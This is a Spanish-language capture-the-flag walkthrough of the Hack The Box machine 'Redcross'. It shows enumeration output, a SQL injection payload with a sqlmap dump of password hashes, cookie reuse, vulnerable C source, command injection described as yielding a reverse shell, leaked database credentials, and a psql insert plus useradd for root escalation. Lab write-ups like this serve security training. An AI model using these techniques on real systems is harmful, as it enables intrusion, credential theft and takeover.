





Hack The Box - Redcross

Contenido
NMAP
Al realizar el primer escaneo a la maquina obtuvimos lo siguiente y al parecer tiene un subdominio (intra).
Nmap 7.70 scan initiated Mon Jan 14 18:47:33 2019 as: nmap -sC -sV -o tcp 10.10.10.113
Nmap scan report for 10.10.10.113
Host is up (0.22s latency).
Not shown: 997 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2.0)
| ssh-hostkey:
| 2048 67:d3:85:f8:ee:b8:06:23:59:d7:75:8e:a2:37:d0:a6 (RSA)
| 256 89:b4:65:27:1f:93:72:1a:bc:e3:22:70:90:db:35:96 (ECDSA)
|_ 256 66:bd:a1:1c:32:74:32:e2:e6:64:e8:a5:25:1b:4d:67 (ED25519)
80/tcp open http Apache httpd 2.4.25
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to https://intra.redcross.htb/
443/tcp open ssl/http Apache httpd 2.4.25
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to https://intra.redcross.htb/
| ssl-cert: Subject: commonName=intra.redcross.htb/organizationName=Red Cross International/stateOrProvinceName=NY/countryName=US
| Not valid before: 2018-06-03T19:46:58
|_Not valid after: 2021-02-27T19:46:58
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
| http/1.1
http/1.1 (1000 Lineas de lo mismo)
|_ http/1.1
Service Info: Host: redcross.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan 14 19:47:25 2019 -- 1 IP address (1 host up) scanned in 3592.63 seconds
Subdominios
Agregamos el subdominio intra a nuestro archivo local /etc/hosts.
10.10.10.113 redcross.htb intra.redcross.htb
Al visitar intra.redcross.htb nos muestra un login, podemos probar contraseñas comunes o seguir enumerando la pagina, en este caso el usuario:contraseña que encontramos fue: guest:guest.
GOBUSTER
Realizamos una busqueda de los directorios y archivos (php,html,txt,pdf,doc) que podrian estar en la pagina, utilizamos el parametro ‘-k’ saltarnos la verificacion de SSL de la pagina (-k Skip SSL certificate verification).
gobuster -u https://intra.redcross.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -k -np -t 30 -x php,html,txt,pdf,doc
=====================================================
Gobuster v2.0.0 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : https://intra.redcross.htb/
[+] Threads : 30
[+] Wordlist : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions : php,html,txt,pdf,doc
[+] Timeout : 10s
=====================================================
/documentation (Status: 301)
/images (Status: 301)
/index.php (Status: 302)
/index.php (Status: 302)
/init.php (Status: 200)
/javascript (Status: 301)
/pages (Status: 301)
=====================================================
Se realizo de la misma manera para el directorio /documentation y nos encontramos con un documento.
gobuster -u https://intra.redcross.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -k -np -t 30 -x php,html,txt,pdf,doc
=====================================================
account-signup.pdf
=====================================================

Nos dice que si queremos un acceso a la plataforma debemos llenar un formulario en https://intra.redcross.htb/?page=contact con subject “credentials” y en el cuerpo del formulario la contraseña del usuario que queremos.


SQLI
Nos logueamos con el usuario y contraseña, al analizar los directorios y paginas, encontramos una vulnerabilidad SQLi en: https://intra.redcross.htb/?o=1'-- -&page=app

Utilizamos burpsuite para capturar el trafico y capturar una solicitud de la SQLi para luego hacer uso de sqlmap con la solicitud, para luego encontrar usuarios y contraseñas, tambien encontramos mensajes de correos electronicos entre los administradores.
GET /?o=1&page=app HTTP/1.1
Host: intra.redcross.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://intra.redcross.htb/?page=app
Cookie: PHPSESSID=vo690q6cktgv56j97dabra5bm3; LANG=EN_US; SINCE=1547616286; LIMIT=10; DOMAIN=intra
Connection: close
Upgrade-Insecure-Requests: 1
SQLMAP
sqlmap -r sql.req --batch --level=5 --risk=3 -D redcross -T users --dump
Database: redcross
Table: users
[5 entries]
+----+------+------------------------------+----------+--------------------------------------------------------------+
| id | role | mail | username | password |
+----+------+------------------------------+----------+--------------------------------------------------------------+
| 1 | 0 | admin@redcross.htb | admin | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. |
| 2 | 1 | penelope@redcross.htb | penelope | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS |
| 3 | 1 | charles@redcross.htb | charles | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i |
| 4 | 100 | tricia.wanderloo@contoso.com | tricia | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. |
| 5 | 1000 | non@available | guest | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi |
+----+------+------------------------------+----------+--------------------------------------------------------------+
Database: redcross
Table: messages
[8 entries]
id,body,dest,origin,subject
1,You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.,5,1,Guest Account Info
2,"Hi Penny, can you check if is there any problem with the order? I'm not receiving it in our EDI platform.",2,4,Problems with order 02122128
3,"Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?",3,1,Strange behavior
4,"Hi, Please check now... Should be arrived in your systems. Please confirm me. Regards.",4,2,Problems with order 02122128
5,"Hey, my chief contacted me complaining about some problem in the admin webapp. I thought that you reinforced security on it... Alerts everywhere!!",2,3,admin subd webapp problems
6,"Hi, Yes it's strange because we applied some input filtering on the contact form. Let me check it. I'll take care of that since now! KR",3,2,admin subd webapp problems (priority)
7,"Hi, Please stop checking messages from intra platform, it's possible that there is a vuln on your admin side... ",1,2,STOP checking messages from intra (priority)
8,Sorry but I can't do that. It's the only way we have to communicate with partners and we are overloaded. Doesn't look so bad... besides that what colud happen? Don't worry but fix it ASAP.,2,1,STOP checking messages from intra (priority)
Con la vulnerabilidad SQLi solo se pudo sacar mensajes y usuarios, no se pudo ir más alla (shell, lectura, escritura de archivos,etc). Intentando crackear las contraseñas con hashcat solo logramos sacar dos pero no sirvieron de mucho:
guest:$2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi:guest
charles:$2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i:cookiemonster
Pero los mensajes nos dan una idea de lo que podriamos hacer, hablan de admin webpanel el cual no pudimos encontrar con gobuster, pero podria ser algo más que un directorio, un subdominio.
10.10.10.113 redcross.htb intra.redcross.htb admin.redcross.htb webpanel.redcross.htb
Al visitar webpanel.redcross.htb solo nos redirige de nuevo a intra.redcross.htb, pero si visitamos admin.redcross.htb, nos muestra un nuevo panel de administracion.

Intentamos utilizar los mismos credenciales pero nos muestra un mensaje:
Not enough privileges!
COOKIES
Ya que el subdominio intra y admin pertenecen a la misma maquina intentamos utilizar las cookies del subdominio intra en el de admin utilizando Cookie Manager con los cuales pudimos logearnos como usuario guest.

Observamos dos User Management, Network Access, en la primera opcion podemos borrar y agregar usuarios, y el server nos genera una contraseña que podemos utilizar para logearnos mediante ssh.
Agregamos un Usuario

Nos devuelve el usuario y contraseña

Nos logeamos con las credenciales al servicio ssh 
Con el usuario que creamos(nemesis) no pudimos hacer mucho, pero encontramos un archivo ‘iptctl.c’, el cual restringe o permite el acceso a la maquina, añadiendo una IP.
/*
* Small utility to manage iptables, easily executable from admin.redcross.htb
* v0.1 - allow and restrict mode
* v0.3 - added check method and interactive mode (still testing!)
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <arpa/inet.h>
#include <unistd.h>
#define BUFFSIZE 360
int isValidIpAddress(char *ipAddress)
{
struct sockaddr_in sa;
int result = inet_pton(AF_INET, ipAddress, &(sa.sin_addr));
return result != 0;
}
int isValidAction(char *action){
int a=0;
char value[10];
strncpy(value,action,9);
if(strstr(value,"allow")) a=1;
if(strstr(value,"restrict")) a=2;
if(strstr(value,"show")) a=3;
return a;
}
void cmdAR(char **a, char *action, char *ip){
a[0]="/sbin/iptables";
a[1]=action;
a[2]="INPUT";
a[3]="-p";
a[4]="all";
a[5]="-s";
a[6]=ip;
a[7]="-j";
a[8]="ACCEPT";
a[9]=NULL;
return;
}
void cmdShow(char **a){
a[0]="/sbin/iptables" ;
a[1]="-L";
a[2]="INPUT";
return;
}
void interactive(char *ip, char *action, char *name){
char inputAddress[16];
char inputAction[10];
printf("Entering interactive mode\n");
printf("Action(allow|restrict|show): ");
fgets(inputAction,BUFFSIZE,stdin);
fflush(stdin);
printf("IP address: ");
fgets(inputAddress,BUFFSIZE,stdin);
fflush(stdin);
inputAddress[strlen(inputAddress)-1] = 0;
if(! isValidAction(inputAction) || ! isValidIpAddress(inputAddress)){
printf("Usage: %s allow|restrict|show IP\n", name);
exit(0);
}
strcpy(ip, inputAddress);
strcpy(action, inputAction);
return;
}
int main(int argc, char *argv[]){
int isAction=0;
int isIPAddr=0;
pid_t child_pid;
char inputAction[10];
char inputAddress[16];
char *args[10];
char buffer[200];
if(argc!=3 && argc!=2){
printf("Usage: %s allow|restrict|show IP_ADDR\n", argv[0]);
exit(0);
}
if(argc==2){
if(strstr(argv[1],"-i")) interactive(inputAddress, inputAction, argv[0]);
}
else{
strcpy(inputAction, argv[1]);
strcpy(inputAddress, argv[2]);
}
isAction=isValidAction(inputAction);
isIPAddr=isValidIpAddress(inputAddress);
if(!isAction || !isIPAddr){
printf("Usage: %s allow|restrict|show IP\n", argv[0]);
exit(0);
}
puts("DEBUG: All checks passed... Executing iptables");
if(isAction==1) cmdAR(args,"-A",inputAddress);
if(isAction==2) cmdAR(args,"-D",inputAddress);
if(isAction==3) cmdShow(args);
child_pid=fork();
if(child_pid==0){
setuid(0);
execvp(args[0],args);
exit(0);
}
else{
if(isAction==1) printf("Network access granted to %s\n",inputAddress);
if(isAction==2) printf("Network access restricted to %s\n",inputAddress);
if(isAction==3) puts("ERR: Function not available!\n");
}
}
Este archivo es utilizado en la segunda opcion del panel de administracion en Network Access, al acceder a la segunda opcion nos muestra las ip que fueron agregada a la lista, en la que tambien podemos denegar el acceso a una IP.

RCE - Reverse SHELL
El archivo que encontramos anteriormente fue compilado y probado localmente, el cual nos pide una opcion y una IP a la cual queremos autorizar|restringir|mostrar y al realizar un analisis a las peticiones al servidor con ‘Burpsuite’ de esta pagina encontramos que podemos realizar una ‘Inyeccion de Comandos’ mediante la opcion de denegar (‘deny’) una IP y asi obtener una shell inversa con python. INFO=>https://www.owasp.org/index.php/Command_Injection
DIRECTORIOS PAGINA WEB
Ya dentro de la maquina pudimos enumerar y descargar los archivos pertenecientes a la pagina web y su estructura es la siguiente.

PRIVILEGE ESCALATION
Creando un Usuario - ROOT
Enumerando los archivos que se manejan en /var/www/html/* los cuales pertenecen a la pagina web de la maquina, encontramos varios usuarios y contraseñas a Bases de Datos.
actions.php
"host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&"
"host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&"
"host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw"
init.php
$dbhost='127.0.0.1'; $dbuser='dbcross'; $dbpass='LOSPxnme4f5pH5wp';$dbname='redcross';
Como pudimos observar, en el panel de administracion podemos crear usuarios, los cuales estan en el grupo de asociados y limitados a una sola carpeta /var/jail/. El codigo php que agrega usuarios a la base de datos.
if($action==='adduser'){
$username=$_POST['username'];
$passw=generateRandomString();
$phash=crypt($passw);
$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
$result = pg_prepare($dbconn, "q1", "insert into passwd_table (username, passwd, gid, homedir) values ($1, $2, 1001, '/var/jail/home')");
$result = pg_execute($dbconn, "q1", array($username, $phash));
echo "Provide this credentials to the user:<br><br>";
<--!echo "<b>$username : $passw</b><br><br><a href=/?page=users>Continue</a>";-->
}
El action: adduser realiza una conexion a la base de datos unix y con el usuario ‘unixusrmgr’ y realiza un query para insertar nombre de usuario, contraseña generada aleatoriamente y la encripta en crypt, gid o al grupo de usuarios que existen en la maquina (/etc/group - associates:x:1001:), tambien un directorio especifico para el usuario. Sabiendo esto podemos tomar ventaja de esta funcion y crear nuestro propio usuario.
Utilizando las mismas credenciales en la base de datos en la que se crean los usuarios, encontramos la tabla llamada passwd_table, que contiene:
username | passwd | uid | gid | gecos | homedir | shell
---------------+------------------------------------+------+------+-------+----------------+-----------
... .... ... ... .... .... ...
greater | $1$bRaICuCW$oRz.QUxie1yqP5Jbi3Z1v/ | 2022 | 0 | | /root | /bin/bash
mailadm | $1$bRaICuCW$oRz.QUxie1yqP5Jbi3Z1v/ | 2024 | 1000 | | /home/penelope | /bin/bash
slot | $1$Zjw7H894$4mUPW1tgQmV5QVKUIOeKZ/ | 2027 | 1001 | | /var/jail/home | /bin/bash
shadow | $1$bRaICuCW$oRz.QUxie1yqP5Jbi3Z1v/ | 2029 | 42 | | /home/ | /bin/bash
goku | $1$bRaICuCW$oRz.QUxie1yqP5Jbi3Z1v/ | 2033 | 27 | | /home/ | /bin/bash
adm | $1$Ca4NB5YL$1VBlUqIoGQg.LSqbiZ7FY/ | 2034 | 4 | | /home/penelope | /bin/bash
Ya que el usuario unixusrmgr tiene permisos para insertar datos en esta tabla, podemos tomar ventaja e insertar nuestro propio usuario con permisos sudo a la base de datos, logearnos mediante ssh para luego poder crear y agregar un usuario con permisos(gid) root a la maquina.
/usr/lib/postgresql/9.6/bin/psql -h 127.0.0.1 -U unixusrmgr unix
Password: dheu%7wjx8B&
Para crear la contraseña utilizamos la siguiente pagina: https://es.functions-online.com/crypt.html
$1$Ca4NB5YL$1VBlUqIoGQg.LSqbiZ7FY/:greatstuff
SQL - INSERT
insert into passwd_table(username, passwd, gid, homedir) values('batman', '$1$Ca4NB5YL$1VBlUqIoGQg.LSqbiZ7FY/', '27', '/root');
Crear Usuario Sudo
sudo useradd -ou 0 -g 0 happy
sudo passwd happy
su happy
INFO=>https://www.shellhacks.com/how-to-grant-root-access-user-root-privileges-linux/
Sudo ¯_(ツ)_/¯
Pudimos haber hecho solamente sudo bash y obteniamos una shell root #meh.